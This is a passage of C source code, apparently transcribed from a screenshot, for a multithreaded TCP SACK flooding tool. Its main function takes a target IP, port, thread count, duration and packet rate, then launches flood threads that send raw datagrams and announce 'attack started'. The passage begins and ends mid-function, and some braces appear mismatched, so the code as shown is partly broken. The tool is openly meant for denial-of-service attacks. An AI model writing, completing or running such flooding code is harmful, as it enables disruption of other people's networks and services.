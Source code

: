 ```c

    // flood loop
    while (1) {
        pthread_mutex_lock(&pps_mutex);
        pps++;
        if(pps >= limiter) {
            usleep(sleeptime);
        }
    pthread_mutex_unlock(&pps_mutex);

    // send loop
    if (sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0) {
        break; // exit loop if send fails
    }

    close(s); // close the socket
    return NULL;
}

// main function
int main(int argc, char *argv[])
{
    if(argc < 6){
        fprintf(stderr, "[+] tcpSACK [+]\n");
        fprintf(stderr, "[+] usage: %s <ip> <port> <number of threads> <time> <pps>\n", argv[0]);
        exit(-1);
    }
    //int multiplier = 20;
    //pps = 0;
    //limiter = 0;

    // arguments
    floodport = atoi(argv[2]);
    void *target = argv[1];
    int max_pps = atoi(argv[5]);
    int num_threads = atoi(argv[3]);
    length_packet = 0;
    pthread_t thread[num_threads];

    // thread creation
    //int alem = 0;
    
    fprintf(stdout, "[+] starting threads...\n");
    for(int i = 0; i < num_threads; i++){
        if(pthread_create(&thread[i], NULL, &flooding_thread, target) != 0){
            perror("thread creation failed!");
            exit(1);
        }
    }
    //for(alem = 0;alem < num_threads;alem++){
      //  if(pthread_create(&thread[alem], NULL, &flooding_thread, (void *)argv[1]) != 0) {
        //    perror("thread creation failed!");
          //  exit(1);
        //}
    //}
    
    fprintf(stdout, "[-] attack started!\n");

    // control loop for packet send rate
    for(int i = 0;i < (atoi(argv[4]) * 1000);i++) {
        usleep(1000);
        pthread_mutex_lock(&pps_mutex);
        if(pps > max_pps) {
```
